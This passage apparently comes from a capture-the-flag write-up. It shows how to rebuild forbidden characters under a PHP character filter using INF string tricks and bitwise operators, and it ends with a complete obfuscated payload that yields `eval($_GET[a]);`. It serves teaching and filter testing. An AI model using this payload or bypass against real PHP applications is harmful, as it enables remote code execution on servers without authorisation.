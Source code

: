 ```
```

But this is not enough, we still have `G` and `[]` left.
Array in php can be used with `{}` instead of `[]`.
So the only letter left is `G`.

We can get another 3 letters for free by using  some PHP predefined constants like `INF` which is returned when we try to calculate a very big number, or a division by zero.

```php
php > echo (9/0);
INF
```

To get the letters, we concatenate `(9/0)` with a character and take the first char with `{0}` like this:

```php
php > echo ((9/0).a){0}
I
```

So now we have:
```
I = ((9/0).a){0}
N = ((9/0).a){1}
F = ((9/0).a){2}
```

Let's add them to the allowed chars and re-run the script, we get:
```
G = F | A
```

Let's reconstruct these chars using only the original allowed chars:

(Note that working with digits is a little bit different, we have to write it inside `()` and also concatenate it with another letter, this way it can be recognized as string)

```
( = (((8)._)%26(l._)){0}
$ = (((7)._)%26(l._)){0}
G = (((9/0).a){2}|(a%26_))
E = (e%26_)
T = ((((0)._)|((e%26v)._)){0}%26_)
{ = (((9)._)|(((((2)._)|(a._)){0})._)){0}
} = ((l._)|((1)._)){0}
) = (((9)._)%26((e|l)._)){0}
; = (((2)._)|((9)._)){0}
```

Finally, the final payload for `eval($_GET[a]);` is:

```
e.v.a.l.(((8)._)%26(l._)){0}.(((7)._)%26(l._)){0}._.(((9/0).a){2}|(a%26_)).(e%26_).((((0)._)|((e%26v)._)){0}%26_).(((9)._)|(((((2)._)|(a._)){0})._)){0}.a.((l._)|((1)._)){0}.(((9)._)%26((e|l)._)){0}.(((2)._)|((9)._)){0}
```
